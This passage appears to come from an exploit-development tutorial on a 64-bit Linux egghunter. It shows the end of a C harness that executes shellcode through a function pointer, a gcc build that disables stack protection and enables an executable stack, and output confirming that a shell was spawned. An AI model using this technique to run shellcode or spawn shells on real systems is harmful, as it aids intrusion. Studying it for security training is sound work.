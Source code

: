 ```nasm
    printf("Memory Location of Shellcode: %p\n", shellcode);
    printf("Memory Location of EggHunter: %p\n", egghunter);
    printf("Size of Egghunter:          %d\n", strlen(egghunter));
    int (*ret)() = (int(*)())egghunter;
    ret();
}
```

## Testing the EggHunter

```bash
root# gcc -m64 -z execstack -fno-stack-protector Hunter.c -o Hunter
root# echo $$ | xargs ps
  PID TTY      STAT   TIME COMMAND
13916 pts/4    Ss     0:00 /bin/bash
root# ./Hunter
Memory Location of Shellcode: 0x555555558060
Memory Location of EggHunter: 0x5555555580a0
Size of Egghunter:          63
root# echo $$ | xargs ps
  PID TTY      STAT   TIME COMMAND
14495 pts/4    S      0:00 [bash]
```

+ Awesome! Our EggHunter works!
